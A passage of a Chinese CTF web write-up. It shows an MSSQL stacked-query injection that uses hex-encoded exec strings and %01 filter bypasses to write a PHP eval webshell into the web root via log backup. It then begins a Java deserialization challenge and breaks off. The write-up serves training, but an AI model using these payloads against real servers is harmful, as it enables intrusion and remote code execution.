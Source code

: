第一个结果就能看到最终预期的getshell方式，当然，这是作为出题人的我一眼发现的，而作为做题人，去试试每种方法也很容易做出这道题

对于绕过过滤，各位师傅其实最后的payload大差不差，这里给出一种最直接的办法

```sql
alter database ctf set RECOVERY FULL 
1;declare%01@s%01varchar(2000)%01set%01@s=0x616c7465722064617461626173652063746620736574205245434f564552592046554c4c20%01exec(@s)

create table cmd (a image)
1;declare%01@s%01varchar(2000)%01set%01@s=0x637265617465207461626c6520636d6420286120696d61676529%01exec(@s)

backup log ctf to disk = '/var/www/html' with init
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f312e62616b27207769746820696e6974%01exec(@s)

insert into cmd (a) values (0x3c3f706870206576616c28245f504f53545b315d293b3f3e) #密码为1的一句话
1;declare%01@s%01varchar(2000)%01set%01@s=0x696e7365727420696e746f20636d64202861292076616c7565732028307833633366373036383730323036353736363136633238323435663530346635333534356233313564323933623366336529%01exec(@s)

backup log ctf to disk = '/var/www/html/shell.php'
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f7368656c6c2e70687027%01exec(@s)
```

这部分也是通过搜索得来的，毕竟是你不了解的数据库，最容易的办法自然是通过搜索引擎

## minijava

**by xlccccc**

**最最最最基础的java题**

如果你是一位Java安全大佬，拿到题目附件后

反编译，发现有反序列化入口，同时发现包内有 **commons-collections-3.2.1** 可以反序列化rce

然后你又发现这里对反序列化的类做了白名单过滤

![image-20230510235616880](Web_Writeup.assets/image-20230510235616880.png)

很显然，直接反序列化是无法rce的，接着你去看User的`readObject`
